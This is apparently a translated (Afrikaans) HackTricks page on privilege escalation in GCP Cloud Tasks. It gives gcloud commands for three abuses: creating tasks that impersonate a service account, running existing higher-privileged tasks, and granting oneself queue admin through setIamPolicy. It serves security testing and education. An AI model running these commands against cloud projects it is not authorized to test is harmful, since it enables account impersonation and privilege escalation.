 # GCP - Cloud Tasks Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Cloud Tasks

### `cloudtasks.tasks.create`, `iam.serviceAccounts.actAs`

'n Aanvaller met hierdie toestemmings kan **ander diensrekeninge naboots** deur take te skep wat met die gespesifiseerde diensrekening se identiteit uitgevoer word. Dit stel in staat om **geoutentiseerde HTTP versoeke na IAM-beskermde Cloud Run of Cloud Functions** dienste te stuur.
```bash
gcloud tasks create-http-task \
task-$(date '+%Y%m%d%H%M%S') \
--location us-central1 \
--queue <queue_name> \
--url 'https://<service_name>.us-central1.run.app' \
--method POST \
--header 'X-Hello: world' \
--body-content '{"hello":"world"}' \
--oidc-service-account-email <account>@<project_id>.iam.gserviceaccount.com
```
### `cloudtasks.tasks.run`, `cloudtasks.tasks.list`

'n Aanvaller met hierdie toestemmings kan **bestaande geskeduleerde take uitvoer** sonder om toestemmings op die diensrekening wat met die taak geassosieer is, te hê. Dit stel die uitvoering van take wat voorheen met hoër bevoorregte diensrekeninge geskep is, in staat.
```bash
gcloud tasks run projects/<project_id>/locations/us-central1/queues/<queue_name>/tasks/<task_id>
```
Die hoof wat hierdie opdrag uitvoer **het nie `iam.serviceAccounts.actAs` toestemming** op die diensrekening van die taak nodig nie. Dit laat egter slegs die uitvoering van bestaande take toe - dit gee nie die vermoë om take te skep of te wysig nie.

### `cloudtasks.queues.setIamPolicy`

'n Aanvaller met hierdie toestemming kan **hulle self of ander hoofde Cloud Tasks rolle toeken** op spesifieke rye, wat moontlik kan lei tot `roles/cloudtasks.admin` wat die vermoë insluit om take te skep en uit te voer.
```bash
gcloud tasks queues add-iam-policy-binding \
<queue_name> \
--location us-central1 \
--member serviceAccount:<account>@<project_id>.iam.gserviceaccount.com \
--role roles/cloudtasks.admin
```
Dit stel die aanvaller in staat om volle Cloud Tasks admin toestemmings op die wachtrij aan enige diensrekening wat hulle beheer toe te ken.

## Verwysings

- [Google Cloud Tasks Dokumentasie](https://cloud.google.com/tasks/docs)

{{#include ../../../banners/hacktricks-training.md}}
